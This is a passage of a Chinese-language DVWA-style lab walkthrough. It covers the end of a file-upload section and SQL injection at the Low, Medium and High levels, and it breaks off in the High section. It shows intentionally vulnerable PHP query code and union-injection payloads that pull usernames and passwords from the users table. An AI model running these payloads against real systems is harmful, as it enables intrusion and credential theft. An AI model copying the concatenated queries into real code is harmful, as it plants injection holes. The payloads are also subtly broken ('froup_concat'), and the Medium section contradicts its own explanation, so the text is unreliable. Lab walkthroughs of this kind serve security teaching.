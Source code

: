 ```php
        }
        imagedestroy( $img );
```

文件名随机这里就无法使用截断、重写图片的话，使用图马就也无法绕过。

## SQL注入

### Low

```php
$id = $_REQUEST[ 'id' ]
# 没有过滤就直接带入 SQL 语句中 使用单引号闭合
$query  = "SELECT first_name, last_name FROM users WHERE user_id = '$id';";
while( $row = mysqli_fetch_assoc( $result ) ) {
        // 回显信息
        $first = $row["first_name"];
        $last  = $row["last_name"];
        $html .= "<pre>ID: {$id}<br />First name: {$first}<br />Surname: {$last}</pre>";
    }
```

union注入：

payload

```payload
/sqli/?id=-1' union select 1,(select+froup_concat(user,':',password+SEPARATOR+0x3c62723e)+FROM+users)--+&Submit=Submit#
```

### Medium

和 Low 级别不一样的代码主要区别如下

```php
$id = $_POST[ 'id' ];

$query  = "SELECT first_name, last_name FROM users WHERE user_id = $id;";
```

可以看到从 GET 型注入变成了 POST 型注入，而且闭合方式不一样，从单引号变成直接拼接到 SQL 语句了。

POST 的数据内容如下：

payload

```payload
/sqli/?id=-1' union select 1,(select+froup_concat(user,':',password+SEPARATOR+0x3c62723e)+from+users)--+&Submit=Submit#
```

### High

主要代码如下：

```php
$id = $_SESSION[ 'id' ];

$query  = "SELECT first_name, last_name FROM users WHERE user_id = '$id' LIMIT 1;";
```
